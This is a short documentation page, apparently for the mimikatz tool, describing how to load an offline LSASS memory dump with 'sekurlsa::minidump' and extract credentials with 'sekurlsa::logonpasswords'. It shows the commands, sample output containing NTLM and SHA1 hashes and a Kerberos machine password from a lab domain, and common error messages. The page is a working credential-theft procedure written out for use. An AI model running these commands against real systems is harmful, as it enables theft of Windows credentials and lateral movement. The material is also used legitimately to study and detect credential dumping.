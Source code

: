 # minidump

It can be used against a dumped LSASS process file and it does not require administrative privileges. It's considered as an "offline" dump.

```
mimikatz # sekurlsa::minidump file.dmp
```

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 3113147 (00000000:002f80bb)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 13/10/2021 20:58:06
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : WIN10$
         * Domain   : hacklab
         * NTLM     : 2c60cae5c83d27b349e98662de463dfc
         * SHA1     : fd6e6c6616156dac734f87d1eec386fa29537d89
        tspkg :
        wdigest :
         * Username : WIN10$
         * Domain   : hacklab
         * Password : (null)
        kerberos :
         * Username : WIN10$
         * Domain   : hacklab.local
         * Password : 8us/0-5sE3:_bd4\B+nEqpI#j,[avKJ'7l5RpDew]EEXya=tZq7g,jAifx%-sgv)Seto+@aPtf];gmb=gSE4K?"D\B+ CBW>vD5*/k71q'iI#V4$otG4t9R[
        ssp :
        credman :
        cloudap :       KO
```

**According to Benjamin the following errors might be raised:**

* `ERROR kuhl_m_sekurlsa_acquireLSA ; Minidump pInfos->MajorVersion (A) != MIMIKATZ_NT_MAJOR_VERSION (B)` minidump is opened from a Windows NT of another major version (_NT5_ vs _NT6_).
* `ERROR kuhl_m_sekurlsa_acquireLSA ; Minidump pInfos->ProcessorArchitecture (A) != PROCESSOR_ARCHITECTURE_xxx (B)` minidump is opened from a Windows NT of another architecture (_x86_ vs _x64_).
* `ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)` The minidump file is not found (check path).
